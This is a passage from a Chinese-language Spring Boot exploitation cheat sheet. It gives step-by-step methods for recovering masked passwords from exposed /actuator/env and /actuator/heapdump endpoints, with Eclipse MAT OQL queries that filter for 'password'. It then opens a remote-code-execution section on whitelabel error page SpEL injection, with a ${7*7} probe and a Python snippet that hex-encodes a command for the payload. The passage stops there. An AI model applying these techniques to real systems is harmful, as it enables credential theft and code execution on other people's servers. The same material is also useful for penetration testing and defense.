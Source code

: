 #### 0x06：获取被星号脱敏的密码的明文 (方法四)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 \* 号替换达到脱敏的效果

**利用条件：**

* 可正常 GET 请求目标 `/heapdump` 或 `/actuator/heapdump` 接口

**利用方法：**

**步骤一： 找到想要获取的属性名**

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

**步骤二： 下载 jvm heap 信息**

> 下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

`GET` 请求目标的 `/heapdump` 或 `/actuator/heapdump` 接口，下载应用实时的 JVM 堆信息

**步骤三： 使用 MAT 获得 jvm heap 中的密码明文**

参考 [文章](https://landgrey.me/blog/16/) 方法，使用 [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) 工具的 **OQL** 语句

```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))

或

select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))
```

辅助用 "**password**" 等关键词快速过滤分析，获得密码等相关敏感信息的明文。

### 二：远程代码执行

> 由于 spring boot 相关漏洞可能是多个组件漏洞组合导致的，所以有些漏洞名字起的不太正规，以能区分为准

#### 0x01：whitelabel error page SpEL RCE

**利用条件：**

* spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
* 至少知道一个触发 springboot 默认错误页面的接口及参数名

**利用方法：**

**步骤一：找到一个正常传参处**

比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

**步骤二：执行 SpEL 表达式**

输入 `/article?id=${7*7}` ，如果发现报错页面将 7\*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```python
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```
